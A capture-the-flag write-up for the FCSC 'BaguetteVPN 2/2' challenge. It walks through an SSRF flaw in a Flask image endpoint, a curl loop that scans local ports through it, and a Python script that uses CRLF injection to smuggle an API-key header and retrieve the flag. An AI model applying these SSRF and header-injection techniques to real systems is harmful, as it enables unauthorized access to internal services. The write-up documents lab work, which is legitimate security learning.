 ## BaguetteVPN 2/2
### Points : *200*
### Description :
> Vous devez maintenant récupérer le secret contenu dans l'API. <br>
> Note : une petite énumération de ports (<2000) est autorisée pour ce challenge.


### Solution :
Inspecting the file `baguettevpn_server_app_v0.py` we found the following part in the script
```python
@app.route("/api/image")
def image():
    filename = request.args.get("fn")
    if filename:
        http = urllib3.PoolManager()
        return http.request('GET', 'http://baguette-vpn-cdn' + filename).data
    else:
        return Response('Paramètre manquant', status=400)

@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)
```

The `http.request` seems vulnerable to SSRF by passing `.localhost` at front of it. We use a bash loop in order to get the localport use.
```bash
for i in {0..2000}; do curl http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=.localhost:$i/api/secret; echo $i; done
```

So we found the following path : `curl http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=.localhost:1337/api/secret`. However we get an error `Interdit: mauvaise clé d'API`. We need to inject `X-API-KEY` header to the backend. 

CRLF injection of header: https://bugs.python.org/issue36276

```python
import requests

host = "challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=.localhost:1337/api/secret"
payload = " HTTP/1.1\r\nX-API-KEY: b99cc420eb25205168e83190bae48a12\r\nlocalhost:1337"
url = "http://" + host + payload
r = requests.get(url)
print(r.text)
```

Flag : `FCSC{6e86560231bae31b04948823e8d56fac5f1704aaeecf72b0c03bfe742d59fdfb}`
